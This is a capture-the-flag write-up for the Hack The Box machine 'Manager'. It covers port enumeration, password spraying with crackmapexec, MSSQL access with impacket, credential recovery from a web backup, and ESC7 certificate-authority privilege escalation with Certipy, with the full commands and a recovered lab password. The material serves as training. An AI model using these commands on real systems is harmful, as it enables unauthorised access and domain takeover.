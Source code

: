 # 1. Enumeration:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-22 12:34 EDT
Nmap scan report for manager.htb (10.10.11.236)
Host is up (0.057s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Manager
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-22 16:35:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.236:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb                                                                                                         
|     DNS_Tree_Name: manager.htb                                                                                                                  
|_    Product_Version: 10.0.17763                                                                                                                 
| ms-sql-info: 
|   10.10.11.236:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-10-22T16:09:44
|_Not valid after:  2053-10-22T16:09:44
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-22T16:37:20+00:00; +1m39s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Not valid before: 2023-07-30T13:51:28
|_Not valid after:  2024-07-29T13:51:28
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1m37s, deviation: 1s, median: 1m38s
| smb2-time: 
|   date: 2023-10-22T16:36:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.57 seconds
```

- There are numerous open ports available, but we'll concentrate our attention on SMB, LDAP, web, and MSSQL.

# 2. Foothold

- We'll attempt to brute force the usernames using `crackmapexec`:

![img.png](img/img.png)

```
zhong
cheng
ryan
ravan
jinwoo
chinhae
operator
```

- Following that, let's conduct a Password Spraying attempt using `crackmapexec` as previously described:

```
crackmapexec smb [ IP or Domain ] -u [ users list ] -p [ password list ]
```

![img_1.png](img/img_1.png)

- We observe that two users have the capability to authenticate within the SMB. Now, let's switch from SMB to MSSQL to identify those who can successfully log in.

```
crackmapexec mssql [ IP or Domain ] -u [ users list ] -p [ password list ]
```

![img_2.png](img/img_2.png)

- Let's try connecting to MSSQL using `impacket`:

```
impacket-mssqlclient -port 1433 manager.htb/operator:operator@10.10.11.236 -window
```

![img_3.png](img/img_3.png)

- After entering, I checked the tables but found no data whatsoever. This led me to consider that it might not 
be data, but rather the execution of a process. Consequently, I conducted a search until I came across a command 
that would enable us to explore the directory's structure:

```
EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

![img_4.png](img/img_4.png)

- After downloading the backup file, we can find the username and password of user `Raven`:

![img_5.png](img/img_5.png)

- Since the target machine is Windows OS, we will use `evil-winrm` to connect to it via `Raven`:

```
evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

![img_6.png](img/img_6.png)

# 3. Privilege Escalation

- Let's check our privilege:

![img_7.png](img/img_7.png)

- We can see that `SeMachineAccountPrivilege` is enabled, so the exploit shouldn't be so hard. Let's upload `Certify.exe` to the machine:

![img_8.png](img/img_8.png)

- Run `Certify.exe` using the following command:

```
./Certify.exe find /vulnarable
```

![img_9.png](img/img_9.png)

- Once we identify vulnerabilities in the `SubCA` template, we will check Hacktrick for any SubCA-related issues:
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
  - https://github.com/ly4k/Certipy

- The part related to SubCA is the Vulnerable Certificate Authority Access Control (ESC7), 
which I will use for Attack 2. We can use the commands from Hacktrick in this context.

```
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username 'raven@manager.htb' -password 
'R4v3nBe5tD3veloP3r!123' && certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 
'administrator@manager.htb' && certipy ca -ca 'manager-DC01-CA' -issue-requests 20 -username 
'raven@manager.htb' -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username 'raven@manager.htb' 
-password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve 20
```

![img_10.png](img/img_10.png)

- After obtaining the certificate, we proceed with the authentication process:

![img_11.png](img/img_11.png)

- In this step, if encounter an error, we need to adjust the time to match Kerberos by using the following command:

![img_12.png](img/img_12.png)

- Once we have the hash, we can employ it with `evil-winrm`, to obtain the root flag:

![img_13.png](img/img_13.png)

![img_14.png](img/img_14.png)

### Reference:

https://github.com/saoGITo/HTB_Manager/blob/main/HTB_Manager_poc.py